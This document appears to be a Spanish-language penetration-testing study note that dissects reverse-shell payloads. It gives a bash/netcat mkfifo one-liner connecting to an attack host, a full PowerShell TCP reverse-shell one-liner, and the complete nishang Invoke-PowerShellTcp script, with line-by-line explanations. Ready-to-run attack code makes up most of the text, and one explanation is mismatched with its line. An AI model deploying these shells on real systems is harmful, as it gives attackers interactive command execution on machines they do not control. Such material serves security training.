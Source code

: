 En seguridad de la información, el payload el comando y/o código que explota la vulnerabilidad en un sistema operativo y/o aplicación.

## One-Liners Examined
#### Netcat/Bash Reverse Shell One-liner
```js
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

==***rm -f /tmp/f;***== 
Elimina el archivo /tmp/f si existe, -f hace que rm ignore los archivos no existentes. El punto y coma (;) se utiliza para ejecutar el comando secuencialmente.

==***mkfifo /tmp/f;***==
Crea un archivo FIFO en la ubicación especificada. En este caso, /tmp/f es el archivo FIFO, el punto y coma (;) se utiliza para ejecutar el comando secuencialmente.

==***/bin/bash -i 2>&1 |***==
Especifica el intérprete del lenguaje de comandos utilizando la opción -i para asegurar que el shell es interactivo. 2>&1 garantiza que el flujo de datos de error estándar (2) y el flujo de datos de salida estándar (1) se redirijan al comando que sigue a la tubería (|).

==***nc 10.10.14.12 7777 > /tmp/f***==
Utiliza Netcat para enviar una conexión a nuestro host de ataque 10.10.14.12 escuchando en el puerto 7777. La salida será redirigida (>) a /tmp/f, sirviendo el shell Bash a nuestro oyente Netcat en espera cuando se ejecute el comando reverse shell one-liner.


## PowerShell One-liner Explained

```js
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**powershell -nop -c**
Ejecuta `powershell.exe` sin perfil ( `nop`) y ejecuta el bloque de comando/script ( `-c`) contenida entre las comillas. Este comando en particular se emite dentro del símbolo del sistema, razón por la cual PowerShell está al principio del comando. Es bueno saber cómo hacer esto si descubrimos una vulnerabilidad de ejecución remota de código que nos permite ejecutar comandos directamente en `cmd.exe`.

**"$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);**
Establece/evalúa la variable `$client` igual a ( `=`) el `New-Object` cmdlet, que crea una instancia del `System.Net.Sockets.TCPClient`Objeto de marco .NET. El objeto .NET framework se conectará con el socket TCP que figura entre paréntesis `(10.10.14.158,443)`. El punto y coma ( `;`) garantiza que los comandos y el código se ejecuten secuencialmente.

**$stream = $client.GetStream();**
Establece/evalúa la variable `$stream` igual a ( `=`) el `$client`variable y el método de .NET framework llamado [GetStream](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.getstream?view=net-5.0) que facilita las comunicaciones de red. El punto y coma ( `;`) garantiza que los comandos y el código se ejecuten secuencialmente.

**[byte[]]$bytes = 0..65535|%{0};**
Crea una matriz de tipo byte ( `[]`) llamado `$bytes`que devuelve 65.535 ceros como valores en la matriz. Se trata esencialmente de un flujo de bytes vacío que se dirigirá al escucha TCP en un cuadro de ataque que espera una conexión.

**while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)**
Comienza un `while` bucle que contiene el `$i` conjunto de variables igual a ( `=`) el marco .NET [Stream.Read](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream.read?view=net-5.0) ( `$stream.Read`) método. Los parámetros: buffer ( `$bytes`), compensar ( `0`), y contar ( `$bytes.Length`) se definen dentro de los paréntesis del método.

**{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);**
Establece/evalúa la variable `$data` igual a ( `=`) una [clase de marco .NET con codificación ASCII](https://en.wikipedia.org/wiki/ASCII) que se utilizará junto con el `GetString` método para codificar el flujo de bytes ( `$bytes`) en ASCII. En resumen, lo que escribamos no sólo se transmitirá y recibirá como bits vacíos, sino que se codificará como texto ASCII. El punto y coma ( `;`) garantiza que los comandos y el código se ejecuten secuencialmente.

**$sendback = (iex $data 2>&1 | Out-String )**
Establece/evalúa la variable `$sendback2` igual a ( `=`) el `$sendback` variable más ( `+`) la cadena PS ( `'PS'`) más `+` ruta al directorio de trabajo ( `(pwd).path`) más ( `+`) la cuerda `'> '`. Esto dará como resultado que el símbolo del shell sea PS C:\workingdirectoryofmachine >. El punto y coma ( `;`) garantiza que los comandos y el código se ejecuten secuencialmente. Recuerde que el operador + en programación combina cadenas cuando no se utilizan valores numéricos, con la excepción de ciertos lenguajes como C y C++ donde se necesitaría una función.

**$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}**
Establece/evalúa la variable `$sendbyte` igual a ( `=`) el flujo de bytes codificado en ASCII que utilizará un cliente TCP para iniciar una sesión de PowerShell con un oyente Netcat ejecutándose en el cuadro de ataque.

**$client.Close()**
Este es el [método TcpClient.Close](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.close?view=net-5.0) que se utilizará cuando finalice la conexión.

El resumen que acabamos de examinar juntos también se puede ejecutar en forma de script de PowerShell ( `.ps1`). Podemos ver un ejemplo de esto viendo el código fuente a continuación. Este código fuente es parte del [proyecto nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) :

```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
```


